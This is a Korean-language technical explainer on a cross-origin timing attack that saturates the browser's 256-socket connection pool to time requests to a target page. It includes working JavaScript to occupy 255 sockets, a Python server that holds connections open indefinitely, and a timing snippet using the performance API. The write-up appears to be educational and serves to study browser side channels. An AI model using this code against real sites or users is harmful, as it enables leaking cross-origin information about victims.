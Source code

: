 최신 브라우저에서는 HTTP/1.1 연결 관리를 위해 Connection Pool이라는 것을 구현하고 있으며 이는 TPC 소캣의 생성 및 해제 비용을 최소화하기 위한 최적화 메커니즘이다.

브라우저는 동일한 호스트에 대해서 동시 연결 수를 제한하는데 대부분 6~8개의 동시 연결만을 허용한다. 동일한 호스트 연결이 아닐 경우에는 일반적으로 최대 256개 내외까지의 소캣 연결을 허용하며 만약 256개의 소캣이 모두 통신에 사용중인 상태라면 Socket Pool은 포화상태가 된다.

공격자는 이 점을 악용하여 Socket Pool을 남용하는 Timing Attack을 수행할 수 있다. 가장 먼저 공격자는 255개의 소캣을 모두 점유하는 상태로 만든다.

```jsx
// Client
for (let i = 0; i < 255; i++)
  fetch("https://" + i + ".example.com/", {
    mode: "no-cors",
    cache: "no-store",
  });
```

```python
# Server
from http.server import BaseHTTPRequestHandler, HTTPServer
import time

class handler(BaseHTTPRequestHandler):
    def do_GET(self):
        time.sleep(float(100000))
        self.send_response(200)
        self.send_header('Cache-Control', 'no-store')
        self.end_headers()

with HTTPServer(('', 8000), handler) as server:
    server.serve_forever()
```

위와 방법을 이용하여 네트워크에서 255개의 소캣을 의도적으로 모두 점유하게 만들게 된다면 255개의 소캣의 연결이 `hanging` 상태로 유지된다. 그러면 Socket Pool은 남은 하나의 소캣을 제외하고는 모든 소캣이 점유중인 상태가 된다. 공격자는 마지막 남은 256번째 소캣으로 시간을 측정하고자 하는 페이지에 요청을 보낸다.

그러면 256개의 모든 소캣이 점유중인 상태가 되므로 Socket Pool이 포화 상태가 된다. 이후에 공격자는 257번째 요청을 아무 다른 호스트에 보낸다. Socket Pool이 포화 상태이므로 257번째 요청은 즉시 연결되지 못하고 대기 상태가 된다.

257번째 요청에 대한 대기 상태가 해제되고 실제 연결이 진행되기 시작하는 시점은 256번째 소캣이 해제되는 시점과 일치한다. 이 이유는 남은 255개의 소캣은 여전히 `hanging` 상태이기 때문이다. 공격자가 측정하고자 하는 페이지의 요청 처리 시간이 100000초가 넘어가지 않는 이상 무조건 256번째 소캣이 가장 빠르게 해제된다.

그렇기 때문에 257번째 요청에 대한 대기 상태가 해제되고 실제 요청이 처리되기 시작한 시간을 구한다면 256번째 요청(측정 대상 페이지)에 대한 시간 측정을 진행할 수 있다.

```jsx
performance.clearResourceTimings();
await fetch(location.href, { cache: "no-store" });
await new Promise((r) => setTimeout(r, 1000));
let data = performance.getEntries().pop();
let type = data.connectStart === data.startTime ? "reused" : "new";
console.log("Time spent: " + data.duration + " on " + type + " connection.");
```

공격자는 위와 같은 로직으로 257번째 요청을 등록하면서 최종적으로 원하는 페이지의 시간 측정을 진행할 수 있다. 이는 `performance` API를 이용하여 시간 측정을 진행하는 것보다 정밀도가 떨어질 수 있다. 하지만 이 방법 역시 `Cross-Origin` 에서 시간을 측정할 수 있으므로 만약 `performance` API가 제한되어 있거나 정밀 시간 측정을 하기 어려운 상황이라면 시도해볼 수 있는 방법이다.
